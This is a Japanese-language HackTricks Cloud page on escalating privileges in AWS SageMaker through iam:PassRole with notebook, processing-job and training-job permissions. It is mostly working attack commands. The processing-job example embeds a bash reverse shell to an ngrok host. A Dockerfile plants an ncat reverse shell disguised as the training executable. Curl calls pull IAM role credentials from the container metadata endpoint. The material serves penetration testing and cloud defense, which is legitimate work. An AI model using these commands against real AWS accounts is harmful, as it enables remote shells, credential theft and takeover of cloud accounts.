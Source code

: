 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールを使用してノートブックを作成し始めます。
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
レスポンスには、作成されたノートブックインスタンスのARNを含む`NotebookInstanceArn`フィールドが含まれるべきです。次に、`create-presigned-notebook-instance-url` APIを使用して、ノートブックインスタンスが準備完了した際にアクセスするためのURLを生成できます：
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ブラウザでURLに移動し、右上の \`Open JupyterLab\` をクリックします。次に、「Launcher」タブまでスクロールし、「Other」セクションの下にある「Terminal」ボタンをクリックします。

これで、IAMロールのメタデータ資格情報にアクセスすることが可能です。

**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

もしJupyter **ノートブックがすでに実行中**であり、\`sagemaker:ListNotebookInstances\`を使用してそれらをリストできる場合（または他の方法で発見できる場合）、それらのためのURLを**生成し、アクセスし、前の技術で示されたように資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的な影響:** 添付されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

その権限を持つ攻撃者は、**sagemakerに処理ジョブを実行させる**ことができます。攻撃者は、**AWS管理ECSアカウントインスタンス**で実行されるコンテナの定義を指定し、**添付されたIAMロールの資格情報を盗む**ことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

その権限を持つ攻撃者は、**任意のコンテナを実行する**トレーニングジョブを作成でき、**それにロールが付与されます**。したがって、攻撃者はそのロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは、前のものよりも悪用が難しいです。なぜなら、攻撃者に直接revシェルや資格情報を送信するDockerイメージを生成する必要があるからです（トレーニングジョブの設定で開始コマンドを指定することはできません）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

その権限を持つ攻撃者は（潜在的に）**ハイパーパラメータトレーニングジョブ**を作成し、**任意のコンテナ**をそれに**ロールを付けて**実行できる可能性があります。\
_時間がなかったため、私はこの脆弱性を悪用していませんが、以前の脆弱性と似ているように見えます。悪用の詳細を含むPRを送信してください。_

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
